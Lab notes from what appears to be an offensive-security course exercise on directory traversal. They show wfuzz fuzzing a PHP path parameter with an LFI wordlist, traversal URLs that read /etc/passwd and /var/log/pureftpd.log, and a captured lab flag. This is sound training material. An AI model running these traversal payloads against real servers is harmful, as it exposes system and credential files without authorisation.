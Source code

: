 ```bash
000000493:   200        69 L     393 W      3494 Ch     "/proc/interrupts"                                                                                                                         
000000694:   200        3 L      10 W       29573 Ch    "/var/log/lastlog"                                                                                                                         
000000722:   200        5 L      19 W       161 Ch      "/var/log/pureftpd.log"                                                                                                                    
000000922:   200        22 L     34 W       1007 Ch     "///////../../../etc/passwd"  
```

We can now observe several verified /etc/passwd files on the target machine, since the erroneous output has been removed.


```bash
wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt http://dirtravsandbox/relativePathingVerbose.php?path=../../../../../../../../FUZZ

http://dirtravsandbox/relativePathingVerbose.php?path=../../../../../../../../etc/passwd
```


##### Labs
`OS{directory_traversalFlagTwo}`
![[Pasted image 20240916212747.png]]
Navigate to `http://dirtravsandbox/relativePathingVerbose.php?path=../../../../../../../../etc/passwd` to get field to fuzz

utilized highlighted word list
![[Pasted image 20240916212907.png]]
Ran this command and output into `lab1.txt`
```bash
┌──(root💀gobots)-[17Sep2024 01:28:31]-[/usr/share/seclists/Fuzzing/LFI]
└─# wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt http://dirtravsandbox/relativePathingVerbose.php?path=../../../../../../../../FUZZ > lab1.txt
```
Ran this command to look for `pureftpd.log` file
```bash
┌──(root💀gobots)-[17Sep2024 01:28:31]-[/usr/share/seclists/Fuzzing/LFI]
└─# cat lab1.txt| grep pureftpd.log      
```
saw a bunch of `/var/log/pureftpd.log`
![[Pasted image 20240916213102.png]]
Navigated to `http://dirtravsandbox/relativePathingVerbose.php?path=../../../../../../../var/log/pureftpd.log`
![[Pasted image 20240916213142.png]]
